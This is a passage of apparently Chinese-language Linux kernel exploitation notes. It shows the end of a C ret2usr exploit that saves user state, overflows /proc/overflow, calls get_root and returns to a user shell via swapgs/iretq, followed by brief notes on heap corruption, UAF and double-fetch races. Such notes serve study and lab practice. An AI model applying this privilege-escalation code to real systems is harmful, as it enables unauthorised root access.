 ```c
        : "r" (swapgs_pfq), "r" (user_ss), "r" (&user_stack), "r" (user_rflags), "r" (user_cs), "r" (&launch_shell), "r" (iretq), "r" (user_rflags)
        : "%rax"
    );
}


static void save_state() 
{
    asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "pushfq\n"
    "popq %2\n"
    : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}

int main()
{   
    save_state();
    int stack;
    user_stack = &stack;
    join_str("AAAAAAAAAAAAAAAAAAAAAAAA");
    join_data(&user_stack);
    join_data(&get_root);
    int fd = open("/proc/overflow", O_WRONLY);
    write(fd, payload, payload_len);
    return 0;
}
```

ret2usr是基于`SEMP`保护未开启的条件下才能利用的，在开启情况下可以利用其他方法绕过，以后具体分析

### Heap Corruptions

http://pwn4.fun/2017/06/12/Exploiting-Linux-Kernel-Heap-Corruptions/

### 

### UAF

### Double Fetch

`Double Fetch`是`Race Condition`的一种，通常是用户态与内核态之间的数据访问竞争，这是在symmetric multiprocessing （SMP）系统才会出现的漏洞，多核机制使得不同的进程可以同时执行相同的代码，导致了条件竞争

我们知道三个事实

1. 每个用户进程有其自己的虚拟内存空间
2. 每个用户进程的虚拟内存空间是孤立的
3. 内核可以访问所有用户进程的内存空间

![1580216809764](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580216809764.png)
